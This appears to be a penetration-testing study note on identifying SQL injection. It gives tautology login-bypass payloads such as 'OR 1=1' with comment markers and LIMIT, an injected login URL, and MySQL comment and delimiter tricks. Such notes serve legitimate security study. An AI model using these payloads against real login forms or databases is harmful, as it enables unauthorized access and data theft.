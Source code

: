 


# ID'ing

By forcing the closing quote on a parameter value and adding a tautology (condition that's always true) statement followed by a _--_ comment separator and two forward slashes (_//_), we can prematurely terminate the SQL statement.
- Requires two consecutive dashes followed by at least one whitespace character.
```sql
offsec' OR 1=1 -- //
```

\***Note:** Some languages have functions that query the db and expect a single record, so if these functions get more than one row, they'll throw an error.  
- If we do get these errors, we can instruct the query to return a fixed number of records w/ the LIMIT statement.  
```sql
-- Doesn't work
' OR 1=1;#

'-- Does work
' OR 1=1 LIMIT 1;#

' --Possibly works
' OR 1=1;-- -
```
- [https://blog.raw.pm/en/sql-injection-mysql-comment/](https://blog.raw.pm/en/sql-injection-mysql-comment/)  
  
If two or more fields are requested, may need to have both w/in URL/ input fields  
Ex:  
```sql
login?profileID=-1' or 1=1--&password=a
```


##### Start of a single line comment
```sql
--
```
- If errors out, may need to add ‘ //’ or ‘ /*’  
- In MySQL, the **--** comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on).  
- The safest solution for inline SQL comment is to use **--**\<space\>\<any character\> such as **-- -** because if it is URL-encoded into **--%20-** it will still be decoded as **-- -** 

##### Other characters
```sql
-- Comment marker (MySQL/ MariaDB)
#

--Comment marker (less common)
%00

-- Statement terminator and a way to separate each SQL statement
;

-- Wildcard
%

-- String delimiter - Useful for finding vulns
'
```
